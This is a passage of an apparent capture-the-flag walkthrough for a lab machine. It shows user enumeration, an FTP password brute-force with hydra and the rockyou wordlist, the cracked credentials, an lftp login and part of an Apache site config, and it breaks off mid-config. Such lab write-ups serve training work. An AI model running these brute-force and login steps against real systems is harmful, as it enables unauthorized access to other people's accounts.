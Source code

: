 After logging we are prompted with this message. This might be a possible user for FTP.

![image](https://user-images.githubusercontent.com/76552238/163458335-a16ea12c-f393-4ab6-9146-131bd758179a.png)

    # ftp david@10.0.0.21

![image](https://user-images.githubusercontent.com/76552238/163458645-2a252828-3db6-47a3-903e-151d999a95f1.png)

We are prompted to enter a password in contrast to the other logins. This means the user 'david' is on the machine.

## ***FTP***

Let's brute force the login using 'hydra'.

    # hydra -l 'david' -P /usr/share/wordlists/rockyou.txt ftp://10.0.0.21 -IV

    [21][ftp] host: 10.0.0.21   login: david   password: DAVID

After logging to FTP, we have a important text file. It holds this message:

### ***important_note.txt:***

    "Many times, the idea we come up with is not to fit for the current times but if launched at the right time can do wonders."

Let's log in to the server using 'lftp'.

    # lftp -u david,DAVID 10.0.0.21

> 

    $ cat /etc/apache2/sites-available/argon.conf

    <VirtualHost *:80>
            # The ServerName directive sets the request scheme, hostname and port that
            # the server uses to identify itself. This is used when creating
            # redirection URLs. In the context of virtual hosts, the ServerName
            # specifies what hostname must appear in the request's Host: header to
            # match this virtual host. For the default virtual host (this file) this
            # value is not decisive as it is used as a last resort host regardless.
            # However, you must set it for any further virtual host explicitly.
            ServerName argon.otp.hmv
